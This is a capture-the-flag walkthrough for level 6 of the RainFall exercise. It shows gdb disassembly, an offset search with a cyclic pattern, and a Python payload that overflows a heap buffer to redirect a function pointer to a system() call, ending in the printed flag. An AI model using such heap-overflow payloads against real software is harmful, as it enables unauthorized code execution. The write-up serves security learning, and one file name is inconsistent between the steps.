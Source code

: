 ## LEVEL 6

The walkthrough of this level will be pretty short because we use almost the same technique that we used in the first levels.

Disassembled code :

```shell
level6@RainFall:~$ gdb -q level6
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave
   0x080484d3 <+87>:	ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave
   0x08048467 <+19>:	ret
End of assembler dump.
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:	push   %ebp
   0x08048469 <+1>:	mov    %esp,%ebp
   0x0804846b <+3>:	sub    $0x18,%esp
   0x0804846e <+6>:	movl   $0x80485d1,(%esp)
   0x08048475 <+13>:	call   0x8048360 <puts@plt>
   0x0804847a <+18>:	leave
   0x0804847b <+19>:	ret
End of assembler dump.
```

To solve this level, we need to find the EIP.

```shell
level6@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9" > /tmp/buff_300
level6@RainFall:~$ gdb -q level6
Reading symbols from /home/user/level6/level6...(no debugging symbols found)...done.
(gdb) r $(cat /tmp/buff_300)
Starting program: /home/user/level6/level6 $(cat /tmp/buff_300)

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

So now we know that the EIP is `72` so if we use the same technique that we used in the first levels, we can find the flag.

### Payload

`python -c 'print "\x90"*72 + "\x54\x84\x04\x08"' > /tmp/payload`

We just have to set the payload as parameter to get the flag.

```shell
level6@RainFall:~$ ./level6 $(cat /tmp/payload_3)
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```

Pretty easy !
